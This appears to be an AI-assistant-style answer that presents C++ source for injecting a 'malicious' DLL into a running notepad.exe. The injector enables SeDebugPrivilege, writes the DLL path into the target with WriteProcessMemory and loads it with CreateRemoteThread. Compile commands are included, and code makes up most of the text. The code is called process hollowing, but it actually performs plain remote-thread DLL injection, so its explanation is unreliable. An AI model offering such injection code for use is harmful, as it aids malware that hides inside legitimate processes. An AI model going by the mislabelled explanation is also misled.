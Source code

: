 
Yes, process hollowing is a technique where a legitimate process is started in a suspended state, its memory is replaced with malicious code, and then it is resumed to execute the malicious code. Below is a simplified example of how you could implement process hollowing in C++. Note that this is an advanced and potentially dangerous technique, and it should only be used for legitimate and authorized purposes such as security research or penetration testing.

**Warning**: The following code is provided for educational purposes only. Misuse of this code could result in serious legal consequences.

### DLL Code (Malicious Code to Inject)
First, we'll create a DLL that contains the malicious code.

```cpp
// malicious_dll.cpp
#include <Windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            MessageBoxA(NULL, "Injected!", "DLL Injection", MB_OK);
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Compile this into a DLL using your preferred compiler:
```sh
cl /LD malicious_dll.cpp
```

### EXE Code (Process Hollowing)

Now, we'll create an executable that performs process hollowing.

```cpp
// process_hollowing.cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

BOOL SetPrivilege(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid)) {
        printf("LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = (bEnablePrivilege) ? SE_PRIVILEGE_ENABLED : 0;

    if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) {
        printf("AdjustTokenPrivileges error: %u\n", GetLastError());
        return FALSE;
    }

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
        printf("The token does not have the specified privilege. \n");
        return FALSE;
    }

    return TRUE;
}

DWORD FindTargetProcessId(const wchar_t* processName) {
    PROCESSENTRY32W processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32W);

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        return 0;
    }

    if (Process32FirstW(hSnapshot, &processEntry)) {
        do {
            if (wcscmp(processEntry.szExeFile, processName) == 0) {
                CloseHandle(hSnapshot);
                return processEntry.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &processEntry));
    }

    CloseHandle(hSnapshot);
    return 0;
}

int main() {
    const wchar_t* targetProcessName = L"notepad.exe"; // Process to hollow
    const wchar_t* dllPath = L"malicious_dll.dll"; // Path to DLL to inject

    DWORD targetPid = FindTargetProcessId(targetProcessName);
    if (targetPid == 0) {
        std::cerr << "Target process not found." << std::endl;
        return 1;
    }

    HANDLE hToken;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
        SetPrivilege(hToken, SE_DEBUG_NAME, TRUE);
        CloseHandle(hToken);
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);
    if (hProcess == NULL) {
        std::cerr << "OpenProcess failed." << std::endl;
        return 1;
    }

    HANDLE hThread = NULL;
    LPVOID pRemoteImage = NULL;

    HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
    LPVOID pLoadLibraryW = (LPVOID)GetProcAddress(hKernel32, "LoadLibraryW");

    pRemoteImage = VirtualAllocEx(hProcess, NULL, (wcslen(dllPath) + 1) * sizeof(wchar_t), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pRemoteImage == NULL) {
        std::cerr << "VirtualAllocEx failed." << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    if (!WriteProcessMemory(hProcess, pRemoteImage, (LPVOID)dllPath, (wcslen(dllPath) + 1) * sizeof(wchar_t), NULL)) {
        std::cerr << "WriteProcessMemory failed." << std::endl;
        VirtualFreeEx(hProcess, pRemoteImage, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibraryW, pRemoteImage, 0, NULL);
    if (hThread == NULL) {
        std::cerr << "CreateRemoteThread failed." << std::endl;
        VirtualFreeEx(hProcess, pRemoteImage, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    WaitForSingleObject(hThread, INFINITE);

    VirtualFreeEx(hProcess, pRemoteImage, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    std::cout << "DLL injected successfully." << std::endl;
    return 0;
}
```

Compile this into an executable using your preferred compiler:
```sh
cl process_hollowing.cpp
```

### Explanation:
1. **SetPrivilege**: This function enables the SeDebugPrivilege for the current process, which is necessary to manipulate another process's memory.
2. **FindTargetProcessId**: This function finds the target process ID by its name.
3. **main**:
   - Opens the target process.
   - Allocates memory in the target process.
   - Writes the path of the DLL into the allocated memory.
   - Creates a remote thread in the target process to call `LoadLibraryW`, which loads the DLL into the target process.

### Important Considerations:
- **Ethics and Legality**: This code should only be used for ethical purposes, such as within the scope of authorized penetration testing or security research.
- **Privileges**: Running this code typically requires administrative privileges.
- **AV/EDR Solutions**: Modern anti-virus (AV) and endpoint detection and response (EDR) solutions are likely to detect and block this technique.